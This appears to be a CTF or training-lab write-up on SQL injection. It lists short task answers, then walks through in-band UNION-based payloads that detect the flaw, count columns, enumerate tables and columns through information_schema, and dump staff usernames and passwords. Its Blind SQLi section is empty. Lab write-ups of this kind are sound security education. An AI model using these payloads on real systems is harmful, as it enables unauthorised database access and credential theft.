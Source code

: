 
## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.![](sqli-detected.png)
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.![](union-cols-1.png)![](union-cols-2.png)
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.![](db-name.png)
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.![](table-names.png)
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.![](staff-col-names.png)
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.![](staff-creds.png)
>	- Answer the question and get the flag.![](flag-1.png)
## *Blind SQLi*
>	- 